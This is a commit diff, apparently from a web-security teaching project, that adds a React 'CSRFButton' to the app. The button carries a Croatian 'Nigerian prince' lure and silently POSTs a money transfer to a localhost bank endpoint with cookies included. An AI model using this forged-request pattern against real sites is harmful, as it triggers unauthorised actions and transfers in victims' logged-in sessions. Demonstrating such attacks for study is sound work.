

Before and after one commit to Verstopper/web2_project_security, a React (Create React App) app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
added dangerous element

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -1,14 +1,15 @@
 import { useAuth0 } from "@auth0/auth0-react";
+import CSRFButton from "./components/CSRFButton";
 import LoginButton from "./components/LoginButton";
 import LogoutButton from "./components/LogoutButton";
 import XssElement from "./components/XssElement";
-
 
 function App() {
   const { isLoading, error, isAuthenticated, user } = useAuth0();
   return (
     <>
       <h1>Welcome!</h1>
+      <CSRFButton />
       {/* TODO insert table here */}
       {error && <p>Authentication Error</p>}
       {!error && isLoading && <p>Loading...</p>}
@@ -17,7 +18,7 @@ function App() {
           {isAuthenticated && <h1>Welcome {user?.name}</h1>}
           <LoginButton />
           <LogoutButton />
-          <XssElement/>
+          <XssElement />
         </>
       )}
     </>
--- /dev/null
+++ b/src/components/CSRFButton.js
@@ -0,0 +1,19 @@
+import React from "react";
+
+const CSRFButton = () => {
+  function sendRequest() {
+    const body = new URLSearchParams(
+      "amount=1000&to=Preveranti"
+    );
+    fetch("http://localhost:8001/transfer", {
+      body,
+      credentials: "include", // include cookies, despite being a cross-origin request
+      method: "post",
+      mode: "no-cors",
+    });
+  }
+
+  return <button onClick={sendRequest}>Nigerijski princ Vam je ostavio hrpu novca,<br/> klikni ovdje kako bi ih preuzeo...</button>;
+};
+
+export default CSRFButton;
```
